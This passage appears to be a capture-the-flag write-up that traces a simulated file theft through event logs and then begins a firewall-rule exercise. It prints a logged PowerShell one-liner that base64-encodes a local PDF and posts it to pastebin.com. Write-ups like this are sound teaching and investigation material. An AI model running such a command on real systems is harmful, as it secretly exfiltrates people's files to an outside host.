 * Answer `104.22.3.84`

Searching for `super_secret_elfu_research.pdf` there are 3 events.


```
2019-11-19 06:14:24.000

C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe Invoke-WebRequest -Uri
https://pastebin.com/post.php -Method POST -Body @{ "submit_hidden" =
"submit_hidden"; "paste_code" =
$([Convert]::ToBase64String([IO.File]::ReadAllBytes("C:\Users\alabaster\Desktop\super_secret_elfu_research.pdf")));
"paste_format" = "1"; "paste_expire_date" = "N"; "paste_private" = "0";
"paste_name"="cookie recipe" }
```

We know exfiltration was done with PowerShell from wks2 so our filter is:

* `SourceHostname:elfu\-res\-wks2.localdomain AND ProcessImage:C\:\\Windows\\SysWOW64\\WindowsPowerShell\\v1.0\\powershell.exe`

Which gives us one event.

```
DestinationHostname
    pastebin.com
DestinationIp
    104.22.3.84
DestinationPort
    80
EventID
    3
ProcessId
    1232
ProcessImage
    C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe
Protocol
    tcp
SourceHostname
    elfu-res-wks2.localdomain
SourceIp
    192.168.247.177
SourcePort
53564
```

# Kent Tinseltooth - Smart Braces
`srf.elfu.org`

A proper configuration for the Smart Braces should be exactly:

1. Set the default policies to DROP for the INPUT, FORWARD, and OUTPUT chains.
2. Create a rule to ACCEPT all connections that are ESTABLISHED,RELATED on the
   INPUT and the OUTPUT chains.
3. Create a rule to ACCEPT only remote source IP address 172.19.0.225 to access
   the local SSH server (on port 22).
4. Create a rule to ACCEPT any source IP to the local TCP services on ports 21
   and 80.
5. Create a rule to ACCEPT all OUTPUT traffic with a destination TCP port of 80.
6. Create a rule applied to the INPUT chain to ACCEPT all traffic from the lo
   interface.
